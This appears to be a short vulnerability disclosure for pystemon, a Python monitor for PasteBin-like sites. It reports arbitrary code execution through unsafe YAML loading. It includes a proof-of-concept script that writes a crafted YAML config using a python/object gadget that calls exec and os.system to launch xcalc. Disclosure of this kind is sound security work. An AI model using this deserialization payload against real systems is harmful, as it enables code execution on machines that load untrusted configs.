 # Description

`pystemon` is a Monitoring tool for PasteBin-alike sites written in Python, which is vulnerable to `Arbitrary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
git clone https://github.com/cvandeplas/pystemon
```

### Run exploit.py
```
import os
#os.system('git clone https://github.com/cvandeplas/pystemon')
exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(exploit)
os.system('python pystemon/pystemon.py -c config.yml')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
